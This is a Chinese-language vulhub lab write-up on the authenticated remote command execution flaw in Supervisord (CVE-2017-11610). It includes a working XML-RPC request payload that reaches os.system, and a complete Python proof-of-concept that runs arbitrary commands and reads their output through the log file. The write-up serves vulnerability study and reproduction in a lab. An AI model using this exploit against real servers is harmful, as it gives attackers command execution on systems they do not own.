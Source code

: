 

# Supervisord 远程命令执行漏洞（CVE-2017-11610）

###### by ADummy

### 0x00利用路线

​			Burpsuite发包--->命令执行--->exp直接打

### 0x01漏洞介绍

​		Supervisord是一款由Python语言开发，用于管理后台应用（服务）的工具，方便运维人员使用图形化界面进行管理。

近期，Supervisord曝出了一个需认证的远程命令执行漏洞（CVE-2017-11610），通过POST请求Supervisord管理界面恶意数据，可以获取服务器操作权限，存在严重的安全风险.

Supervisor介绍

Supervisor 是基于 Python 的进程管理工具，可以帮助我们更简单的启动、重启和停止服务器上的后台进程，是 Linux 服务器管理的效率工具。Supervisor有四个组件：

1. supervisord

运行Supervisor的后台服务，它用来启动和管理那些你需要Supervisor管理的子进程，响应客户端发来的请求，重启意外退出的子进程，将子进程的stdout和stderr写入日志，响应事件等。它是Supervisor最核心的部分。

2. supervisorctl

相当于supervisord的客户端，它是一个命令行工具，用户可以通过它向supervisord服务发指令，比如查看子进程状态，启动或关闭子进程。它可以连接不同的supervisord服务，包括远程机上的服务。

3. Web服务器

这是supervisord的Web客户端，用户可以在Web页面上完成类似于supervisorctl的功能。

4. XML-RPC接口

这是留给第三方集成的接口，你的服务可以在远程调用这些XML-RPC接口来控制supervisord管理的子进程。上面的Web服务器其实也是通过这个XML-RPC接口实现.
### 0x 02漏洞复现

环境启动后，访问`http://your-ip:9001`即可查看Supervisord的页面

![Supervisord _RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Supervisord_RCE_1.jpg)

直接执行任意命令：

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![Supervisord _RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Supervisord_RCE_2.jpg)

查看docker，/tmp/success 被成功创建

![Supervisord _RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Supervisord_RCE_3.jpg)

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py)，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：`./poc.py "http://your-ip:9001/RPC2" "command"`：

![Supervisord _RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Supervisord_RCE_4.jpg)

### 0x03参考资料

https://blog.csdn.net/zzkk_/article/details/77046789



